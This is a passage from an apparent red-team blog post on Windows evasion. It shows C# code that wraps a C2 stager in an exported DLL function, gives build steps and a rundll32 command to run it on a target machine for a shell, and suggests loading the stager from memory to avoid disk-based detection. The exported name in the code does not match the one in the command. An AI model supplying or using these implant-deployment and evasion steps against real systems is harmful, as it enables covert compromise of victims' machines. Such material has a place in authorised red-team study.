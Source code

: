```cpp
public class Exports
{
    [DllExport("MonkEntry", CallingConvention = CallingConvention.Cdecl)]
    public static void MonkEntry(IntPtr hwnd,
    IntPtr hinst,
    string lpszCmdLine,
    int nCmdShow)
    {
        new MonkStager.MonkStager();
    }
}

```

Add using statements for __System.Runtime.InteropServices__ and __RGiesecke.DllExport__. 

Open the __Configuration__ __Manager__ and create a New Solution Platform for __x64__ (and x86 if you require).

Now build the project then copy the DLL to the target machine and execute with __rundll32__ as follow

```sh
rundll32.exe GruntDllName.dll,GruntEntry
```

Now you should have your shell.

<p align="center">
  <img src="/assets/posts/2021-03-01-Windows-Evasion/cov2.JPG">
</p>

__Note:__ 🚩 Alternatively you can use this reflection technique to download and run a GruntStager EXE directly from memory, without having it touch disk.  For example:


<p align="center">
  <img src="/assets/posts/2021-03-01-Windows-Evasion/cov3.JPG">
</p>


